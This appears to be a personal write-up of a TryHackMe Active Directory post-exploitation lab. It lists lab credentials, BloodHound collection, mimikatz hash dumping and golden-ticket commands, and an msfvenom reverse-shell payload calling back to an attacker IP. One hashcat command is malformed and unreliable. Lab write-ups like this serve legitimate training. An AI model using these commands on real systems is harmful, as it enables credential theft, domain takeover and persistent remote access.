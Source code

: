 # PostExploit

[link to the room](https://tryhackme.com/room/postexploit)


`export ip=10.10.2.28`

## Enumeration

- ssh creds : `ssh Administrator@$ip` password:`P@$$W0rd`

### BloodHound
- use sharphound to get loot.zip `Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.local -ZipFileName loot.zip`
- analyse the request by frag aand drop the zip file into `bloodhound`

### Dumping hashes w/ mimikatz

- `privilege::debug` This ensures that you're running mimikatz as an administrator
- dump hashes from LSASS `lsadump::lsa /patch`
- found `Password1` for machine1 with hashcat `hashcat -m 64f12cddaa88057e06a81b54e73b949b $rockyou`

### Golden ticket w/ mimikatz
- `lsadump::lsa /inject /name:krbtgt`  dumps the hash and security identifier of the Kerberos Ticket Granting Ticket account allowing you to create a golden ticket
- create a golden ticket `kerberos::golden /user:Administrator /domain: /sid: /krbtgt: /id:`
- `misc::cmd`  This will open a new command prompt with elevated privileges to all machines

### enumeration w /Server manager

- need access with RDP

### maintaining Access

- generate a payload with msfvenom : `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.9.4.143 LPORT=3311 -f exe -o shell.exe`

### resources 
- https://blog.harmj0y.net/
- https://adsecurity.org/?page_id=1821
- https://metasploit.help.rapid7.com/docs/about-post-exploitation
- http://www.pentest-standard.org/index.php/Post_Exploitation
- https://offsec.red/mimikatz-cheat-sheet/
- https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993

### tools
- https://github.com/gentilkiwi/mimikatz
- https://github.com/BloodHoundAD/BloodHound/blob/master/Ingestors/SharpHound.ps1
- https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1
